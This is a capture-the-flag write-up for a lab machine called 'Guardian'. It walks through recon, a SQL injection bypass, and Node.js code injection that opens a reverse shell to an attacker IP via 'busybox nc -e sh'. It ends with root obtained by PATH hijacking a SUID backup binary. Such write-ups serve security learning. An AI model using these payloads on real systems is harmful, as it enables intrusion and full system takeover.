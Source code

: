 # Guardian
![](../images/guardian/index.png)

## Recon
At the beginning, I used `nmap` with the following parameters to scan the target. 
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $sudo nmap -sSVC -Pn -T5 --min-rate 2000 172.16.7.194 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 22:46 -03
Warning: 172.16.7.194 giving up on port because retransmission cap hit (2).
Nmap scan report for 172.16.7.194
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e9:d3:ea:ff:b8:2f:a6:39:f8:af:75:1d:ca:b5:aa:59 (ECDSA)
|_  256 2e:2d:59:6e:f9:5b:83:ea:5b:ff:31:c5:0c:33:20:6e (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-title: Guardian Insurance
|_Requested resource was /login
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.74 seconds
```
The scan revealed only ports 22 (SSH) and 80 (HTTP) as open. This suggests that the target is likely running a web service and allowing remote SSH connections.

Below, we can see that there is a redirect to the `/login` page, indicating that authentication is required. Additionally, the application is using `Express.js` as its web framework, which suggests that it is built with Node.js.
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $whatweb 172.16.7.194
http://172.16.7.194 [302 Found] Cookies[connect.sid], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], HttpOnly[connect.sid], IP[172.16.7.194], RedirectLocation[/login], X-Powered-By[Express], nginx[1.24.0]

http://172.16.7.194/login [200 OK] Cookies[connect.sid], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], HttpOnly[connect.sid], IP[172.16.7.194], PasswordField[password], Script, Title[Guardian Insurance], X-Powered-By[Express], nginx[1.24.0]
```

```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $curl -I 172.16.7.194
HTTP/1.1 302 Found
Server: nginx/1.24.0 (Ubuntu)
Date: Thu, 27 Feb 2025 01:45:42 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 28
Connection: keep-alive
X-Powered-By: Express
Location: /login
Vary: Accept
Set-Cookie: connect.sid=s%3ARXUeGLySkK468RfGVU4pe8Y1Is1B8Wgg.b23S0dXS0oZ7kV9WD5ix4UWkZaeImFr2krPARKPep6Y; Path=/; HttpOnly
```

First, I performed fuzzing on the web application using ffuf to discover hidden directories and files:
```bash
┌─[✗]─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $ffuf -u http://172.16.7.194/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.7.194/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 166ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 219ms]
logout                  [Status: 302, Size: 23, Words: 4, Lines: 1, Duration: 282ms]
login                   [Status: 200, Size: 2707, Words: 661, Lines: 52, Duration: 280ms]
customers               [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 187ms]
                        [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 157ms]
                        [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 167ms]
:: Progress: [56164/56164] :: Job [1/1] :: 591 req/sec :: Duration: [0:01:50] :: Errors: 1 ::
```

```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/guardian]
└──╼ $ffuf -u http://172.16.7.194/js/FUZZ -w /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/js.txt -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.16.7.194/js/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/SVNDigger/cat/Language/js.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login.js                [Status: 200, Size: 967, Words: 219, Lines: 36, Duration: 182ms]
utils.js                [Status: 200, Size: 1817, Words: 575, Lines: 68, Duration: 184ms]
register.js             [Status: 200, Size: 1535, Words: 400, Lines: 47, Duration: 221ms]
:: Progress: [3550/3550] :: Job [1/1] :: 515 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

The discovered directories and JavaScript files provide valuable insights into the application's structure. By analyzing the JavaScript files, we identified the following API endpoints:
```
images/
login/
logout/
customers/
js/

js/login.js
js/utils.js
js/register.js


POST to /api/auth/login
POST to /api/auth/first-access/register
GET to /api/auth/verify
POST to /api/rest/execute
```

Additionally, while interacting with the web application, we observed another endpoint: `POST to /api/auth/first-access`.
![](../images/guardian/recon.png)

## Exploitation
The analysis of utils.js reveals two functions, getCompany() and getCustomers(), which send POST requests to `/api/rest/execute` with the following JSON payload:
```
JSON.stringify({action: `db.getClients('${user.EIN}')`})
```

This suggests that the application dynamically executes queries based on user input, which could potentially lead to Remote Code Execution (RCE) if not properly sanitized. However, to explore this endpoint, a valid authentication token (cookie) is required.

In the `/first-access` registration process, there is an Employer Identification Number (EIN) input field. When a request is made to verify the EIN, the application sends a request to: `POST /api/auth/first-access`
![](../images/guardian/error_ein.png)

By testing the payload: `' or 1=1#` we successfully bypassed the EIN verification and obtained a list of valid EINs. This confirms that the application is vulnerable to SQL Injection on the `/api/auth/first-access` endpoint.
![](../images/guardian/sql_injection.png)

To register using the obtained EIN (56-7890123), we need to send a POST request to `/api/auth/first-access/register` with the required parameters.
![](../images/guardian/register.png)

Now that we have registered an account, we need to log in to obtain an authentication token.
![](../images/guardian/login.png)

Now that we have obtained a JWT. We can add `Authorization: Bearer TOKEN` in our request header.
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJmOTRiZjRhMy1hNDJmLTRhZjMtYTRhYy1lZjFiOTkyMDRkMTYiLCJFSU4iOiI1Ni03ODkwMTIzIiwiZW1haWwiOiJ0ZXN0QGdtYWlsLmNvbSIsInVzZXJuYW1lIjoidGVzdCIsIlNTTiI6IjEyMzQiLCJhcHByb3ZlZCI6MCwiaWF0IjoxNzQwNjI2NDYxLCJleHAiOjE3NDA2NDA4NjF9.9oqz6-D1JgxsB-rvHn-rCKvpUZu_Ql2aXutMIstXz70
```

Since the vulnerability in utils.js seems to be exploitable, let's craft and test Remote Code Execution (RCE) payloads for Node.js.
![](../images/guardian/testing.png)

Using `{"action":"db.getClients('56-7890123')\nrequire('child_process').exec('curl 10.0.10.235:4444')"}`
![](../images/guardian/command_injection.png)

Great! Now that we have confirmed Remote Code Execution (RCE), you can use the following payload to execute system commands:
```
{"action":"db.getClients('56-7890123')\nrequire('child_process').exec('busybox nc 10.0.10.235 4444 -e sh')"}
```
![](../images/guardian/rce.png)

## Post Exploitation
Inside `/opt` we have a binary file. Since the binary inside `/opt` has the SUID bit set, it runs with elevated privileges. If we can analyze and exploit it, we may escalate privileges to root.
<br>
![](../images/guardian/opt_1.png)
<br>
![](../images/guardian/opt_2.png)

With Ghidra, we can see the following information:

Main function - check credentials and call a binary named `mysqldump`.
![](../images/guardian/ghidra_1.png)

Verify Credentials functions - give to us a login and password.
![](../images/guardian/ghidra_2.png)

So our path to get a privilege escalation it's make a `Path Hijacking` with `mysqldump` binary and login. Inside `/opt` directory:
```bash
echo 'chmod u+s /bin/bash' > /tmp/mysqldump
chmod +x /tmp/mysqldump
export PATH=/tmp:$PATH
./backup mysql_backup:7fxzh7m*
```
![](../images/guardian/root.png)

And vouala, we have root =D